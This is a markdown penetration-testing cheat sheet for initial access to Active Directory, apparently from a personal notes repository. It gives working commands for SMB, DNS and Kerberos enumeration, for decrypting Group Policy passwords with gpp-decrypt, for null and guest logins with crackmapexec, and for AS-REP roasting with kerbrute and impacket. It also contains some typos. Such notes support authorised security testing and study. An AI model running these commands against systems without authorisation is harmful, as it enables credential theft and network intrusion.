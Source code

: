 # Getting Initial Foodhold (We need Credentials!! User names are golden :) )
1. Determine the IP address or hostname of the Active Directory server. If we seen( port 53 445, 389, 88, we are most likely dealing with AD)
2. Enumerate DNS
3. Check open ports: Enumerate SMB: If port 445 is open, use tools like enum4linux, smbmap, smbclient crackmapexec to gather information about the SMB service, such as shared folders and users.
4. Enumerate LDAP: If port 389 or 3268/3269 is open, use tools like ldapsearch, to gather information about the LDAP directory service, such as users, groups, and organizational units.
5. Enumerate Kerberos: If port 88 is open, use tools like krb5-enum-users or enum-users-gpp-decrypt to enumerate users and potentially crack Kerberos passwords.
6. Enumerate RPC: If port 135 is open, use tools like rpcclient or nmap-rpc-info to gather information about the RPC service and potentially identify vulnerable endpoints.
7. Check for group policy: (Groups.xml for Windows 12 and below) Look for group policy information in the directory, use tools like gpp-decrypt to decrypt and extract any saved credentials.
   - open the Groups.xml file. decrpyt the password hash by `gpp-decrypt $HASH`
9. Check for computer accounts: Look for computer accounts in the directory, which can be used to identify and target specific systems on the network.
10. Look for organizational units (OUs): Check for OUs in the directory, which can be used to identify the structure and organization of the network.
11. https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg  Look at this roadmap

## Enumeration
1. `nmap -sC -sV -p -oA result 10.0.0.0./8`
2. Edit host file `subl /etc/hosts to add domain`

## Port 53 DNS
1. `nslookup` 
2. `server $IP` then type -> `$IP` to figure out the host name. 
3. `dnsrecon -d $IP -r $IP
4. 
## Port 445 SMB (Check SMB.md file)
1. `nmap --script safe -p 445, $IP`
2. `enum4linux $IP`
3. `smbmap -H $IP` (anonymous login) 
4. `smbmap -R $Filename $IP` (list the content of the directroy)
5. `smbmap -R Filename $IP -A $FiletoDownload -q` (Download the intersting file such as Groups.xml)  `update db` and `locate $Filename`. 
6. 'crackmapexec smb -u '' -p'' $IP` or `crackmapexec smb -u 'guest' -p''` to try to access.

## AS-REP Roasting (Authentication Reply Roasting)
1. If pre-authentication is disabled, and we provide a list of userlists to the domain controller (AS-REQ), the DC will grant us TGT. If the passwords are weak, we can crack the TGT and gain access. We can use krebrute, impacket, or crackmap
2. `kerbrute userenum --dc $IP -d DOMAIN.NAME user.txt` user.txt is a userlist that we have created to authenticate to DC.
3. `impacket-GetNPUsers -userfile user.txt -dc-ip $IP DOMAIN.NAME\`
4. Crack the hash
